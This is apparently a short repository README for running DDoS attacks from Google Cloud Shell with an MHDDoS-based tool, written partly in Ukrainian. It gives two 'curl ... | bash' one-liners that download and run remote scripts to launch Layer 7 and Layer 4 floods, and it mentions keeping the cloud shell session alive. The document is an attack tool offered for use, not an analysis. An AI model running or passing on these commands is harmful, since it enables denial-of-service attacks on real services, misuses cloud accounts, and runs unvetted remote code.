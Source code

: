 # DDoS whith Google Cloud Shell 
# MHDDoS_proxy
# 
Making script for durable cloudshell session

#ТЕСТ
Командb для запуску атаки 
по Layer7:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L7m.sh | bash

по Layer4:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L4.sh | bash
